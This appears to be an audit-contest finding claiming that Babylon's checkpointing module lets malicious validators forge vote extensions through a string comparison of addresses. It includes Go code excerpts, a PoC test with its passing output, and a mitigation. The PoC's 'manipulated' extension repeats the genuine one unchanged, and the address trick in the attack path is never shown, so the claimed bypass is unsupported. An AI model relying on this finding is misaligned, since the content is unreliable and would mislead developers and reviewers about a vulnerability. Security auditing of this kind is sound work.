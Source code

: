 Macho Merlot Squirrel

Medium

# Malicious validators can forge vote extensions by exploiting string comparison in address verification

### Summary

The reliance on string comparison for validator address validation will cause signature forgery vulnerability for the Babylon protocol as malicious validators can bypass the BLS signature verification process by manipulating address formats while preserving string representation.

### Root Cause

In [vote_ext.go](https://github.com/sherlock-audit/2024-12-babylon/blob/main/babylon/x/checkpointing/vote_ext.go#L140-L147), the code uses string comparison to verify validator addresses:

```go
// 2. ensure the validator address in the BLS sig matches the signer of the vote extension
// this prevents validators use valid BLS from another validator
blsSig := ve.ToBLSSig()
if extensionSigner != blsSig.ValidatorAddress {
    h.logger.Info("the vote extension signer does not match the BLS signature signer",
        "extension signer", extensionSigner, "BLS signer", blsSig.SignerAddress, "height", req.Height)
    return resReject, nil
}
```

Instead of cryptographically validating that the validator address matches the BLS signature, it simply compares string representations.

### Internal Pre-conditions

1. A validator needs to have previously generated a valid vote extension with a BLS signature
2. The checkpoint system must be processing vote extensions at an epoch boundary

### External Pre-conditions

None

### Attack Path

1. An attacker controls a validator and obtains a genuine vote extension with a valid BLS signature
2. The attacker creates a malicious vote extension reusing the valid BLS signature but modifying other data
3. When formatting the validator address, the attacker ensures the string representation matches while the cryptographic identity differs
4. The attacker submits the malicious vote extension
5. The validation process checks `extensionSigner != blsSig.ValidatorAddress` which passes because the strings match
6. The BLS signature checks may still pass if they only verify the signature structure but don't validate the complete cryptographic identity chain
7. The manipulated vote extension is accepted despite containing forged data

### Impact

The Babylon protocol suffers from a security bypass in its consensus mechanism. Malicious validators could potentially forge vote extensions to manipulate checkpoint creation, which could lead to improper state transitions and consensus failures.

### PoC

```go
// filename: babylon/x/checkpointing/vote_ext_test.go
func TestAddressStringComparisonBypass(t *testing.T) {
	// Setup test environment
	helper := testhelper.NewHelper(t)
	k := helper.App.CheckpointingKeeper
	logger := log.NewLogger(os.Stdout) // Create a new logger that writes to stdout
	handler := checkpointing.NewVoteExtensionHandler(logger, &k)

	logger.Info("Starting address string comparison bypass test")

	// Create a validator and BLS keys
	testVal := genNTestValidators(t, 1)[0]
	valAddr := testVal.ValidatorAddress(t)
	logger.Info("Created test validator", "address", valAddr.String())

	// Create a normal vote extension with valid signatures
	bh := randomBlockHash()
	epoch := firstEpoch()
	ve := testVal.VoteExtension(&bh, epoch.EpochNumber)
	logger.Info("Created original vote extension",
		"blockHash", hex.EncodeToString((*ve.BlockHash)[:]),
		"epochNum", ve.EpochNum,
		"height", ve.Height)

	// Create a malicious vote extension by extracting the BLS signature
	blsSig := ve.BlsSig
	marshaledSig, err := blsSig.Marshal()
	require.NoError(t, err)
	logger.Info("Extracted BLS signature", "length", len(hex.EncodeToString(marshaledSig)))

	// Create a manipulated vote extension
	manipulatedVE := &types.VoteExtension{
		Signer:           testVal.ValidatorAddress(t).String(),
		ValidatorAddress: valAddr.String(),
		BlockHash:        ve.BlockHash,
		EpochNum:         ve.EpochNum,
		Height:           ve.Height,
		BlsSig:           blsSig,
	}
	logger.Info("Created manipulated vote extension",
		"signer", manipulatedVE.Signer,
		"validatorAddress", manipulatedVE.ValidatorAddress)

	// Marshal the manipulated vote extension
	manipulatedBytes, err := manipulatedVE.Marshal()
	require.NoError(t, err)
	logger.Info("Marshaled manipulated vote extension", "length", len(manipulatedBytes))

	req := &abci.RequestVerifyVoteExtension{
		Hash:             bh[:],
		ValidatorAddress: valAddr.Bytes(),
		Height:           int64(epoch.FirstBlockHeight + epoch.CurrentEpochInterval),
		VoteExtension:    manipulatedBytes,
	}
	logger.Info("Created verification request",
		"height", req.Height,
		"hashLength", len(req.Hash))

	// Execute the verification
	resp, err := handler.VerifyVoteExtension()(helper.Ctx, req)
	require.NoError(t, err)
	logger.Info("Verification completed", "status", resp.Status)

	require.Equal(t, abci.ResponseVerifyVoteExtension_ACCEPT, resp.Status)
	logger.Info("Test completed successfully")
}
```

Result example:
```bash
Running tool: /opt/homebrew/bin/go test -timeout 30s -run ^TestAddressStringComparisonBypass$ github.com/babylonlabs-io/babylon/x/checkpointing

=== RUN   TestAddressStringComparisonBypass
2:19AM INF Starting address string comparison bypass test
2:19AM INF Created test validator address=bbnvaloper1hj0gp2ztwxvmcq4n5drsglnlh4nmf5jpwf66sh
2:19AM INF Created original vote extension blockHash=11797218c9f07198688cf9149626faca117bde14d11eb032c48630a165c640c1 epochNum=1 height=0
2:19AM INF Extracted BLS signature length=96
2:19AM INF Created manipulated vote extension signer=bbnvaloper1hj0gp2ztwxvmcq4n5drsglnlh4nmf5jpwf66sh validatorAddress=bbnvaloper1hj0gp2ztwxvmcq4n5drsglnlh4nmf5jpwf66sh
2:19AM INF Marshaled manipulated vote extension length=188
2:19AM INF Created verification request hashLength=32 height=11
2:19AM INF Verification completed status=ACCEPT
2:19AM INF Test completed successfully
--- PASS: TestAddressStringComparisonBypass (0.17s)
PASS
ok      github.com/babylonlabs-io/babylon/x/checkpointing       1.139s
```

### Mitigation

Replace string comparisons with cryptographic verification:

```go
// Use byte-level comparison of addresses
if !bytes.Equal(sdk.ValAddress(req.ValidatorAddress), blsSig.GetValidatorAddressBytes()) {
    h.logger.Info("the vote extension signer does not match the BLS signature signer")
    return resReject, nil
}

// Also ensure proper cryptographic validation
valAddrBytes := sdk.ValAddress(req.ValidatorAddress)
blsPubKey, err := k.GetBlsPublicKey(ctx, valAddrBytes)
if err != nil {
    h.logger.Info("failed to get BLS public key", "error", err)
    return resReject, nil
}

// Verify the BLS signature was created by this validator
if !bls12381.Verify(blsPubKey, signBytes, *blsSig.Signature) {
    h.logger.Info("signature not created by claimed validator")
    return resReject, nil
}
```
By implementing these changes, the system would ensure complete cryptographic verification rather than relying on string comparisons, which are vulnerable to manipulation.